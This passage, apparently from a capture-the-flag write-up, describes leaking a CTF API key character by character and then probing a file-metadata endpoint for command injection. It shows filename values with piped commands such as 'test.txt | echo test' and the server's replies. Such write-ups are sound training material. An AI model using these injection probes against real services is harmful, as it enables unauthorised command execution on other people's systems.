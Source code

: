 It grabs the first character → then you append it like `sk_$` → rerun the script → send payload → repeat until you leak the full key.

Finally, we got the full key:

`X-API-Key: sk_7xknxgm3vo`

## Command Injection

### Metadata-Stripper Package
Investigation revealed **command injection vulnerability** in the custom package.  

Now I could send requests to:

**POST `/api/strip-metadata`**

When sending, I got back:

```json
{"message":"Filename processed successfully.","details":"    0 image files updated\\n    1 files weren't updated due to errors\\n"}
```

From the message I suspected **command injection**. I started testing:

1. `test.txt |`

```json
{"message":"Filename processed successfully.","details":"No output from command."}
```

2. `test.txt | echo test`

```json
{"message":"Filename processed successfully.","details":"test\\n"}
```

3. `test.txt | echo flag`

```json
{"message":"Filename processed successfully.","details":"\\n"}
```

This means something is filtering out the word **FLAG**.

I went back to the source where it processes the filename:
